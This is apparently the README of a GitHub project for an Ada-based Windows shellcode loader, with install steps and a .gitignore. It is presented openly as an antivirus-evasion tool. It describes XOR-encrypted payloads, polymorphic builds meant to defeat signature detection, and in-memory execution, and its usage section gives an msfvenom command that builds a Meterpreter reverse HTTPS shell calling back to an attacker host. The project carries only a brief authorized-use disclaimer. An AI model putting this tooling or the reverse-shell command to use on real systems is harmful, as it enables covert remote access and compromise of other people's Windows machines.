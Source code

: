 # Ada Shellcode Loader

A simple shellcode loader written in Ada for Windows x64.

## Features

- XOR encryption with random key per build
- Polymorphic compilation - every build is unique
- Written in Ada (uncommon language, low detection rates)
- Compiles to native Windows executable
- No external dependencies

## Requirements

- GNAT Ada compiler
- MinGW-w64 for cross-compilation
- Python 3

## Installation

### Automated Installation
```bash
chmod +x install.sh
./install.sh
```

Supports:
- Debian/Ubuntu
- RedHat/CentOS/Fedora
- Arch Linux
- macOS

### Manual Installation

**Debian/Ubuntu:**
```bash
sudo apt update
sudo apt install gnat gnat-mingw-w64 python3
```

**Fedora:**
```bash
sudo dnf install gcc-gnat mingw64-gcc-gnat python3
```

**Arch:**
```bash
sudo pacman -S gcc-ada mingw-w64-gcc python
```

**macOS:**
```bash
brew install gcc mingw-w64
```

## Usage
```bash
# Generate shellcode (raw format, x64)
# Example: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o shellcode.bin

# Build
python3 build.py shellcode.bin

# Output: loader.exe
```

## Polymorphic Builds

Every compilation generates a completely unique binary:
- Randomized function and variable names (30+ identifiers)
- Random XOR encryption key
- Random timing delays
- Unique binary hash every time

This ensures the loader cannot be signatured, even with widespread use.

## How It Works

1. `build.py` generates unique polymorphic code structure
2. Encrypts shellcode with a random XOR key
3. Compiles to Windows executable with randomized identifiers
4. At runtime, loader decrypts and executes shellcode in memory

## Technical Details

- **Encryption**: XOR with position-dependent key
- **Memory**: VirtualAlloc (RW) → VirtualProtect (RX)
- **Execution**: CreateThread
- **Language**: Ada 2012
- **Polymorphism**: 30+ randomized identifiers per build

## Notes

This is for authorized security testing only. Ensure you have proper authorization before use.

## License

MIT
```

## .gitignore
```
# Compiled binaries
*.exe

# Shellcode files
*.bin

# Ada compilation artifacts
*.ali
*.o

# Build artifacts
*_build.adb
loader_build.adb

# Python
__pycache__/
*.pyc
*.pyo

# OS files
.DS_Store
Thumbs.db

# Editor files
*.swp
*.swo
*~
.vscode/
.idea/
